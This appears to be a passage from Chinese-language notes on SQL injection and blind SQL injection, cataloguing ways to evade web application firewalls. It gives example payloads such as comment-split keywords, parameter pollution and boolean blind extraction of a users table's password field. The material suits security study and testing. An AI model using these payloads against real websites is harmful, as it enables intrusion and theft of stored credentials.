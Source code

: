 # SQL Injection&Blind SQL Injection（SQL注入与SQL盲注漏洞）：

## 一、绕过WAF的方法：

\1. 大小写绕过

\2. 简单编码绕过

\3. 注释绕过：

如?id=1 uni/**/on sele/**/ct 1,2,3 # 

\4. 分隔重写绕过：

适用于WAF采用正则表达式检测所有的敏感字的情况，可以通过注释分开敏感字，如?id=1 un//ion sel//ect 1,2,3 #；至于重写绕过，适用于WAF过滤了一次的情况，如uniunionon，有时候可能还有多次过滤的情况，这时多次尝试也可以。

\5. HTTP参数污染(HPP)： 

如?id=1 union select 1,2,3 from users where id=1 # 

这时可以改为?id=1 union select 1&id=2,3 from users where id=1 # 

次数&id=会在查询时变成逗号，具体细节取决于 WAF ；

这个例子也同理：?id=1/*/union/&id=/select/&id=/pwd/&id=/from/&id=*/users # 

如果服务器代码为：select * from table where a=”.$_GET[‘a’].” and b=”.$_GET[‘b’].” limit “.$_GET[‘c’]; 那么可以构造这样的注入语句：?a=1 union/&b=/select 1,pass/&c=/from users # 最终解析为：select from table where a=1 union/ and b=/select 1,pass/limit */from users # 可以看到，这种方式比较适合白盒测试。

\6. 使用逻辑运算符 or /and 绕过：

如?id=1 or 0x50=0x50 

?id=1 and ascii(lower(mid((select pwd from users limit 1,1),1,1)))=74，其中select pwd from users limit 1,1是从 users 表里查询 pwd 字段的第一条记录， 然后 mid()就是取该记录的第一个字符， lower()把字符转换为小写， ascii 把 该字符转换成 ascii 码，最后判断等不等于 74。

\7. 比较操作符替换：比较操作符如!=、<>、<、>都可以用来替换=来绕过。

\8. 同功能函数替换：

substring()可以用mid()、substr()这些函数来替换，都是用来取字符串的某一位字符的；

ascii()编码可以用 hex()、bin()，即十六进制和二进制编码替换；

在使用在基于延时的盲注中benchmark()和sleep()可以相互替换；

group_concat 、 concat 、concat_ws 三者可以互相替换；

还有一种新的方法 ，3条语句分别如下

substring((select ‘password’),1,1) = 0x70

substr((select ‘password’),1,1) = 0x70

mid((select ‘password’),1,1) = 0x70 

都是从 password 里判断第一个字符的值，可以用 
